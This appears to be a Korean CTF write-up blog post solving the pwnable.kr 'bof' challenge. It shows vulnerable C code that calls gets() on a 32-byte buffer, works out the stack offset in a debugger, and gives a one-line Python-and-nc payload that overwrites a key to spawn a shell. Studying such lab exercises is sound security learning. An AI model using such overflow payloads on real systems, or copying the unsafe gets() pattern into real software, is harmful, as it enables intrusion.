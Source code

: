 ```yaml
---
layout: post
title: "[pwnable.kr] bof 풀이"
date: 2018-05-30 04:44
categories: "[Pwn]pwnable.kr"
tags: UnKN0wnName
---
```

>## bof - [5pt]
>### Nana told me that buffer overflow is one of the most common software vulnerability.
>### Is that true?
>###
>### Download : http://pwnable.kr/bin/bof
>### Download : http://pwnable.kr/bin/bof.c
>### Running at : nc pwnable.kr 9000

문제 이름을 보아하니 이 문제는 Buffer Overflow를 사용하는 문제인 것 같네요. BOF에 대한 개념은 추후에 작성할께여  

일단 두 파일을 다운받아서 분석해 봅시다

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key)
{
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe)
	{
		system("/bin/sh");
	}
	else
	{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[])
{
	func(0xdeadbeef);
	return 0;
}
```
코드 자체에서 힌트를 줘버리네요
  
gets 함수가 받을 문제 수를 제한하지 않고 문자를 받아들여서 overflow가 일어나요  
오버플로우를 이용해 key 값을 0xcafebabe 로 바꿔주면 쉘을 딸 수 있을 것 같아요

이 부분을 디버거로 분석 가즈아~~~~

![bof_gdb_func](/pic/pwnable_kr/bof/bof_gdb_func.png)

func 함수를 어셈블리어로 보면 다음과 같아요  
여기서 문자를 받아서 들어가는 곳을 찾기위해서는 gets 함수의 인자를 봐야겠죠?  

<func+29> 부분에서 [ebp-0x2c] 부분의 주소를 eax에 넣어요  
<func+32> 에서 gets의 인자는 eax가 가지고 있는 주소가 되네요  
따라서 우리가 직접 넣는 값은 [ebp-0x2c]의 위치에 저장되는 것을 확인할 수 있어요!

따라서 이 부분에 0xcafebabe를 넣어주면 CLEAR!!!

# Exploit

![bof_ex_pic](/pic/pwnable_kr/bof/bof_ex_pic.png)

>### $ (python -c 'print "\x90"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000

![bof_ex_flag](/pic/pwnable_kr/bof/bof_ex_flag.png)
